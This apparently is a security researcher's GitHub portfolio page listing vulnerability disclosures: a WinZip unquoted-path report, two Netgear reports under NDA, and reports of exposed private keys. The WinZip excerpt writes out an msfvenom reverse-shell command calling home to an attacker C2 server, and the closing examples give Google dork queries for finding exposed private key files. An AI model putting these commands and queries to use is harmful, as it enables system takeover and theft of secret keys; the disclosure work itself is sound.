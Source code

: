 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): [https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf](https://github.com/ciwen3/Public/blob/master/Cyber%20Security/vuln-report/winzip-Submission.pdf)
- Credited: [https://support.corel.com/hc/en-us/articles/217086227](https://web.archive.org/web/20210218194953/https://support.corel.com/hc/en-us/articles/217086227)
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence or elevating privilege's on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 

### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys

1. Weathernews Inc (wni.co.jp): May 13, 2021 - Sensitive data exposure, found private keys on several publicly accessable (no login required and google searchable) servers. The first server was found by googling and it had a url with a name followed by a numbered. By going to the next number up I was able to find an additional server that also lacked proper file permissions. 
2. [Redacted]Resorts.com: June 12, 2024 - Sensitive data exposure, found one private key on publicly accessable (no login required and google searchable) servers.
3. [Redacted]Custom.com: June 12, 2024 - Sensitive data exposure, found private keys on publicly accessable (no login required and google searchable) servers.

##### Examples:
- intitle:"index of" "*.cert.pem" | "*.key.pem"
- "BEGIN * PRIVATE KEY" ext:pem | ext:key | ext:txt
